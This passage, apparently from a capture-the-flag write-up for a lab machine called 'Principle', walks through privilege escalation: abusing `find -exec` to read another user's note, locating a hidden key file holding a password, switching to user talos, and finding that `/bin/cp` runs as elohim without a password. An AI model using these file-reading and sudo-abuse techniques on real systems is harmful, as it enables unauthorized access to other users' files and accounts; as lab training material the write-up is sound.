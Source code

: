 ```
-rw-r----- 1 talos talos  320 Jul 13 15:42 note.txt
```

We abuse `find` to read `note.txt`:

```
$ find . -exec cat /home/talos/note.txt \; -quit
Congratulations! You have made it this far thanks to the manipulated file I left you, I knew you would make it!
Now we are very close to finding this false God Elohim.
I left you a file with the name of one of the 12 Gods of Olympus, out of the eye of Elohim ;)
The tool I left you is still your ally. Good luck to you.
```

A few gods (in a couple of languages) later...

```
$ find / -iname *afrodita*  2>/dev/null
/etc/selinux/Afrodita.key
```

Let's see what `Afrodita.key` file contais:

```
$ cat /etc/selinux/Afrodita.key 
Here is my password:
xxxxxxxxxxx

Now I have done another little trick to help you reach Elohim.
REMEMBER: You need the access key and open the door. Anyway, he has a bad memory and that's why he keeps the lock coded and hidden at home.
```

## talos

Now we can be `talos`:

```
$ su - talos
```

Let's see what we can do:

```
talos@Principle:~$ sudo -l
Matching Defaults entries for talos on principle:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin,
    use_pty

User talos may run the following commands on principle:
    (elohim) NOPASSWD: /bin/cp
```

### First flag

Now, we can use `/bin/cp` as `elohim`.
Let's see what we can find in `/home/gehenna`:
